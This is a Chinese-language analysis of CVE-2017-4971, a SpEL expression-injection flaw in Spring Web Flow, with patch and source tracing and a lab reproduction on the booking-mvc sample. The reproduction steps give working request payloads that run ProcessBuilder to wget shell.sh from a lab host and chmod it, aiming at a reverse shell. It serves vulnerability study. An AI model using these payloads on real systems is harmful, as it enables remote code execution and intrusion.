# Spring Web Flow 远程代码执行漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2017-4971
* 漏洞简述： 由于Spring的框架越来越多，而且后面引入了SpringEl作为默认的表达式解析方式，所以一旦引入了类似于OGNL的表达式，很可能会带来一些安全问题，本次漏洞就是由于Spring WebFlow的数据绑定问题带来的表达式注入，从而导致任意代码执行。
* 影响版本： Spring Web Flow 2.4.0 to 2.4.4

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;该漏洞在2017年5月31号被提交到[https://pivotal.io/security/cve-2017-4971](https://pivotal.io/security/cve-2017-4971 "https://pivotal.io/security/cve-2017-4971")平台，官方并没有详细的信息，通过官方描述和补丁的对比，我们可以大致推断应该是Spring WebFlow在Model的数据绑定上面，由于没有明确指定相关model的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞，这个漏洞利用除了版本的限制之外还有两个前置条件，这两个前置条件中有一个是默认配置，另外一个就是编码规范了，漏洞能不能利用成功主要就取决于后面的条件。

&emsp;&emsp;整体来说这个漏洞危害应该还是有一些的，如果满足2个前置条件，那么直接RCE是没什么问题的。在分析这个漏洞之前需要一些Spring Webflow的基础知识，给大家推荐这篇文章[https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html](https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html "https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html")。

## 3.&emsp;漏洞原理分析 ##

### 3.1 &emsp;源码补丁分析 ###

&emsp;&emsp;首先我们可以从Spring Web Flow官网找到Spring Web Flow源码[github](https://github.com/spring-projects/spring-webflow "https://github.com/spring-projects/spring-webflow")地址，然后通过找到补丁提交的源代码主要在[spring-webflow/src/main/java/org/springframework/webflow/mvc/view/AbstractMvcView.java](https://github.com/spring-projects/spring-webflow/compare/2.5.x#diff-d9efeba3700c0135e224911fadb39795 "https://github.com/spring-projects/spring-webflow/compare/2.5.x#diff-d9efeba3700c0135e224911fadb39795")文件中修改，查看和上一个版本的源码比较：



### 3.2 &emsp;源码分析 ###

&emsp;&emsp;我们发现这里对 addEmptyValueMapping(DefaultMapper mapper, String field, Object model) 这个方法里面表达式解析的实现类进行了替换，直接使用了BeanWrapperExpressionParser来解析，关于这个类我们后面再详细说，那么知道触发漏洞的函数后，我们就可以用MyEclipse来跟踪下函数调用栈，具体如下：



&emsp;&emsp;通过调用关系我们可以发现一共有一下两个函数调用了addEmptyValueMapping方法

* addDefaultMappings(DefaultMapper mapper, Set<String> parameterNames, Object model)
* addModelBindings(DefaultMapper mapper, Set<String> parameterNames, Object model)

&emsp;&emsp;这里通过调用关系我们可以大概的搞明白Spring WebFlow的执行顺序和流程，由flowcontroller决定将请求交给那个handler去执行具体的流程，这里我们需要知道当用户请求有视图状态处理时，会决定当前事件下一个执行的流程，同时对于配置文件中我们配置的view-state元素，如果我们指定了数据的model，那么它会自动进行数据绑定，xml结构如下(这里以官方的example中的book项目为例子):



&emsp;&emsp;本次漏洞出现的原因就是在view-state节点中数据绑定上，我们继续跟踪addEmptyValueMapping方法的调用过程，这里通过eclipse我们可以发现bind方法间接的调用了addEmptyValueMapping函数，



&emsp;&emsp;到这里我们知道了addEmptyValueMapping函数存在表达式执行的点，我们现在来详细看下这个addEmptyValueMapping函数，如下图



&emsp;&emsp;这里我们可以看见，只有控制了field参数才能出发漏洞，所以我们重点是找到有没有点我们可以控制从而控制field参数来进行任意代码执行，这里明确目标后，我们回过头来看addDefaultMappings和addModelBindings这两个函数，既然这两个函数都调用了存在缺陷的函数，那么我们看看这两个函数的区别是什么，而且那个函数能能能控制field参数，两个函数的区别如下

**addDefaultMapping函数**

	/**
	 * Adds a {@link DefaultMapping} between the given request parameter name and a matching model field.
	 *
	 * @param mapper the mapper to add the mapping to
	 * @param parameter the request parameter name
	 * @param model the model
	 */
	protected void addDefaultMapping(DefaultMapper mapper, String parameter, Object model) {
		Expression source = new RequestParameterExpression(parameter);
		ParserContext parserContext = new FluentParserContext().evaluate(model.getClass());
		Expression target = expressionParser.parseExpression(parameter, parserContext);
		DefaultMapping mapping = new DefaultMapping(source, target);
		if (logger.isDebugEnabled()) {
			logger.debug("Adding default mapping for parameter '" + parameter + "'");
		}
		mapper.addMapping(mapping);
	}

**addModelBindings函数**

	/**
		 * 

		 * Adds a {@link DefaultMapping} for every configured view {@link Binding} for which there is an incoming request
		 * parameter. If there is no matching incoming request parameter, a special mapping is created that will set the
		 * target field on the model to an empty value (typically null).
		 * 

		 *
		 * @param mapper the mapper to which mappings will be added
		 * @param parameterNames the request parameters
		 * @param model the model
		 */
		protected void addModelBindings(DefaultMapper mapper, Set<String> parameterNames, Object model) {
			for (Binding binding : binderConfiguration.getBindings()) {
				String parameterName = binding.getProperty();
				if (parameterNames.contains(parameterName)) {
					addMapping(mapper, binding, model);
				} else {
					if (fieldMarkerPrefix != null && parameterNames.contains(fieldMarkerPrefix + parameterName)) {
						addEmptyValueMapping(mapper, parameterName, model);
					}
				}
			}
		}

&emsp;&emsp;这里比较明显的区别就是addModelBindings函数中 for (Binding binding : binderConfiguration.getBindings()) 存在这样一个循环，而且就是这个循环的控制决定了field参数的值，经过进一步分析，这里控制field的参数的决定性因素就是binderConfiguration这个变量所控制的值，这里经过源码的跟踪我们可以发现，binderConfiguration函数的值就是webflow-*.xml中view-state中binder节点的配置，所以这个函数的值来源于配置文件，所以这个函数我们无法控制，从而无法触发漏洞，所以我们重点来看看addDefaultMappings这个函数，我们发现addDefaultMappings中我们可以控制field参数，所以我们重点来看看如何去触发这个函数。

&emsp;&emsp;现在我们基本上可以确定了addDefaultMappings函数是我们触发漏洞的关键点，那么如上图所示，bing函数中调用了这两个函数，那么我们可以看出只有当binderConfiguration为空的时候才能触发我们的漏洞，那么我们刚才也说了binderConfiguration这个值是由配置文件中是否有binder节点来控制的（这里需要注意的是程序执行到bind方法的前置条件是view-state节点中是否配置了model属性，即绑定的javabean对象是什么），而且addDefaultMappings函数中parameterNames参数就是我们从表单中传递的值，所以到这里漏洞的触发流程和触发条件基本上清楚了，触发条件如下：

* 在webflow配置文件中view-state节点中指定了model属性，并且没有指定绑定的参数，即view-state中没有配置binder节点
* 而且MvcViewFactoryCreator类中useSpringBeanBinding默认值（false）未修改

&emsp;&emsp;这里为什么一定要useSpringBeanBinding的值为false，我们来看一下addEmptyValueMapping函数，这里的expressionParser变量的声明类是ExpressionParser接口，那么决定最后 expressionParser.parseExpression(field, parserContext)这个函数来执行任意表达式是这个变量的赋值，那么在spring webflow中这个expressionParser的默认值就是WebFlowELExpressionParser的实例，这个类表达式默认的解析是有spel来执行的，具体可以去跟踪函数，那么在org.springframework.webflow.mvc.builder.MvcViewFactoryCreator.createViewFactory(Expression, ExpressionParser, ConversionService, BinderConfiguration, Validator, ValidationHintResolver)这个类如下图



&emsp;&emsp;我们可以看见如果useSpringBeanBinding这个属性为false那么久使用默认的解析类，如果这个值为true就由BeanWrapperExpressionParser这个类来解析，这个类的parseExpression函数



&emsp;&emsp;首先决定了能不能执行的第一个控制变量是allowDelimitedEvalExpressions，这个默认值是false，所以这里是执行不了表达式的。
所以这里必须满足useSpringBeanBinding这个默认值不被改变。

&emsp;&emsp;这里需要注意一点，我们构造的恶意参数名称必须以_开头，具体原因看addDefaultMappings函数中的fieldMarkerPrefix变量。

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

通过github下载Spring Web Flow官方实例[https://github.com/spring-projects/spring-webflow-samples/tree/master/booking-mvc](https://github.com/spring-projects/spring-webflow-samples/tree/master/booking-mvc "https://github.com/spring-projects/spring-webflow-samples/tree/master/booking-mvc")

### 4.2&emsp;MyEclipse导入Maven工程 ###

* MyEclipse点击file选项选择Import



* 点击进入选择maven功能里的Existing Maven Project选项



* 选择你工程的路径直接导入点击Finish按钮进行导入



* 成功导入工程后找到WebFlowConfig.java文件，将文件中factoryCreator.setUseSpringBeanBinding(true);的true改为false：



* 点击工程直接运行就可以看到生成的网页：



### 4.3&emsp;漏洞复现 ###

1. 点击页面中的超链接进入图书搜索页面，在页面中输入搜索内容进行搜索

2. 搜索到图书点击View hotel按钮，然后点击Book hotel按钮，如果没有登录请先登录（登录名密码圈出来了，4种任意都可以登录）

3. 进入借书页面，随意写入16位Credit Card id和Credit Card Name点击Process按钮

4. 在点击Confirm按钮前我们需要进行burpsuite进行拦截抓包，截获数据包send to repeater，篡改数据包添加恶意payload：`&_(new+java.lang.ProcessBuilder("/usr/bin/wget","-P/tmp","http://192.168.159.128/shell.sh")).start()=feifei`，shell.sh放在可以访问的服务器中，执行请求包。


5. 查看自己虚拟机的/tmp目录下有没有成功下shell.sh,可以看到shell.sh成功下载


6. 至此已经复现了漏洞，可是我们既然想代码执行，那我们就可以进行反弹shell操作，继续执行命令，添加payload：`&_(new+java.lang.ProcessBuilder("/bin/chmod","777","/tmp/shell.sh")).start()=feifei`对shell.sh修改权限


7. 查看虚拟机中的/tmp目录下的shell.sh有没有变成可读可写可执行权限，可以看到shell.sh权限成功变成777

